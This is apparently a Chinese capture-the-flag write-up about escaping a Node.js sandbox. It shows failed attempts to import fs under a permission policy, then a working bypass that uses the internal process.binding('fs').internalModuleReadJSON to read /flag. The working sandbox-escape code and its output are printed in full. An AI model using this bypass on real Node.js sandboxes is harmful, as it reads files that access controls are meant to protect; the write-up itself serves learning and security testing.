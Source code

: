 flag3 是 Node.js 沙箱，这里没看到提示，估计就在文件系统里。开始动手后会发现由于
[policy](https://nodejs.org/api/permissions.html#policies) 限制我们没法 import
fs，尝试了
[各种](https://nodejs.org/api/esm.html#import-expressions)
[姿势](https://stackoverflow.com/a/51201040)
都宣告失败，还找到了 thezzisu 提的
[issue](https://github.com/nodejs/node/issues/45359)。

```javascript
const fs = module.require('fs')
// ReferenceError: module is not defined in ES module scope
import("fs")
// Error [ERR_MANIFEST_DEPENDENCY_MISSING]: Manifest resource file:///app/backend/runner.js does not list fs as a dependency specifier for conditions: node, import, node-addons
import("#fs")
// [ERR_MANIFEST_DEPENDENCY_MISSING]
import("node:fs")
// [ERR_MANIFEST_DEPENDENCY_MISSING]
import { fs } from "fs"; fs.readdirSync(dir)
// SyntaxError: Cannot use import statement outside a module
```

policy 检查是在
[resolve.js#L1015](https://github.com/nodejs/node/blob/ce16bf553fb11836d69316fc16ec99cddd59058e/lib/internal/modules/esm/resolve.js#L1015)
返回的错误，没看出来怎么绕过。

然后发现 <https://stackoverflow.com/a/51201040> 评论中的非公开接口 process.binding
可以成功，但里面 readdirSync 等函数都是 undefined。看了仓库中的
[用](https://github.com/nodejs/node/blob/5fad0b93667ffc6e4def52996b9529ac99b26319/test/parallel/test-err-name-deprecation.js#L16)
[例](https://github.com/nodejs/node/blob/8822f40b2d48841c6d4fb4c04266a5703bdf33e9/lib/internal/modules/cjs/loader.js#L97)
，对照
[C++](https://github.com/nodejs/node/blob/63aba5672c26dedda546a19430ff06756e87e870/src/uv.cc#L62)
[代码](https://github.com/nodejs/node/blob/775bf629ddd3b4f9f33ae887a2bd6653aed989d8/src/node_file.cc#L1086)
，应该需要函数接受一个类型为 `const FunctionCallbackInfo<Value>&`
的参数才能这样调用。在 node_file.cc 里面查找就能找到
[InternalModuleReadJSON](https://github.com/nodejs/node/blob/775bf629ddd3b4f9f33ae887a2bd6653aed989d8/src/node_file.cc#L988)
。

```javascript
process.binding('fs')
// TypeError: Do not know how to serialize a BigInt
const fs = process.binding("fs"); fs.readdirSync("/")
// TypeError: fs.readdirSync is not a function
process.binding('fs').readdirSync
// Unexpected token 'u', \"undefined\n\" is not valid JSON
process.binding('uv').errname(-1)
// {"result":"EPERM"}
// It works!
process.binding('fs').internalModuleReadJSON('/flag')
// {"result":["flag{node_sAndbox_1s_alwAys_RIsky}\n",false]}
```
